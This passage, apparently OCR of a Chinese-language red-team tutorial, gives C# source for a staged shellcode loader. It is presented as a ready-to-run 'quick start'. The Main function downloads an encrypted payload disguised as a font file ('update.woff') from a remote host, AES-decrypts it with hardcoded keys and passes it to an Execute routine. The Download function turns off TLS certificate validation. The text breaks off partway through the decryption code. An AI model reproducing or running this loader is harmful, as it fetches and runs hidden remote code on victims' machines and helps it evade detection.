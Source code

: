 ```CS
                return memoryStream.ToArray();
            }
        }
    }
```

Main函数部分：在下载和执行方法中间加入解密模块的调用。

```CS
    static void Main(string[] args)
    {
        byte[] shellcode_encrypt = Download("http://172.16.181.182/update.woff");
        byte[] shellcode = Decrypt(shellcode_encrypt, AESKey, AESIV);
        Execute(shellcode);
        return;
    }
```

### 快速上手 - 完整代码 ?

```CS
using System;
using System.Net;
using System.Runtime.InteropServices;
using System.Collections.Generic;
using System.IO;
using System.Security.Cryptography;
using System.Text;

namespace L15_Stage_Listener_2
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT";
        private static string AESIV = "8y/B?E(G+KbPeShV";

        private static byte[] Download(string url)
        {
            // 不检查证书
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            // 调用DownloadData方法，下载指定内容
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }

        private static byte[] Decrypt(byte[] shellcode, string AESKey, string AESIV)
        {
            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length - 1; i++)
            {
                l.Add(shellcode[i]);
            }

            byte[] ciphertext = l.ToArray();

            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
```